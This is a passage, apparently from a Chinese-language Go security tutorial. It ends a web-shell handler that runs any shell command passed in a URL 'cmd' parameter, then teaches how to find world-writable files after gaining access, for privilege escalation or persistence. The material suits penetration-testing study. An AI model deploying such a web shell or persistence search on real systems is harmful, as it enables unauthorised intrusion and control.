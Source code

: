 ```go
      log.Fatal("Error creating server. ", err)
   }
}

func requestHandler(writer http.ResponseWriter, request *http.Request) {
   // Get command to execute from GET query parameters
   cmd := request.URL.Query().Get("cmd")
   if cmd == "" {
      fmt.Fprintln(
         writer,
         "No command provided. Example: /?cmd=whoami")
      return
   }

   log.Printf("Request from %s: %s\n", request.RemoteAddr, cmd)
   fmt.Fprintf(writer, "You requested command: %s\n", cmd)

   // Run the command
   command := exec.Command(shell, shellArg, cmd)
   output, err := command.Output()
   if err != nil {
      fmt.Fprintf(writer, "Error with command.\n%s\n", err.Error())
   }

   // Write output of command to the response writer interface
   fmt.Fprintf(writer, "Output: \n%s\n", output)
} 
```

# 查找可写文件

一旦您获得对系统的访问权限，您就会开始探索。通常，您会寻找提升权限或保持持久性的方法。寻找持久性方法的一个好方法是识别哪些文件具有写权限。

您可以查看文件权限设置，看看您或其他人是否具有写权限。您可以明确寻找`777`等模式，但更好的方法是使用位掩码，专门查看写权限位。

权限由几个位表示：用户权限，组权限，最后是每个人的权限。`0777`权限的字符串表示看起来像这样：`-rwxrwxrwx`。我们感兴趣的位是给每个人写权限的位，由`--------w-`表示。

第二位是我们关心的唯一位，因此我们将使用按位与运算符将文件的权限与`0002`进行掩码。如果该位已设置，它将保持为唯一设置的位。如果关闭，则保持关闭，整个值将为`0`。要检查组或用户的写位，可以分别使用按位与运算符`0020`和`0200`。

要在目录中进行递归搜索，Go 提供了标准库中的`path/filepath`包。此函数只需一个起始目录和一个函数。它对找到的每个文件执行该函数。它期望的函数实际上是一个特别定义的类型。它的定义如下：

```go
type WalkFunc func(path string, info os.FileInfo, err error) error  
```

只要创建一个与此格式匹配的函数，您的函数就与`WalkFunc`类型兼容，并且可以在`filepath.Walk()`函数中使用。

在下一个示例中，我们将遍历一个起始目录并检查每个文件的文件权限。我们还将涵盖子目录。任何当前用户可写的文件都将打印到标准输出：

```go
package main

import (
   "fmt"
   "log"
   "os"
   "path/filepath"
)

func main() {
   if len(os.Args) != 2 {
      fmt.Println("Recursively look for files with the " + 
         "write bit set for everyone.")
      fmt.Println("Usage: " + os.Args[0] + " <path>")
      fmt.Println("Example: " + os.Args[0] + " /var/log")
```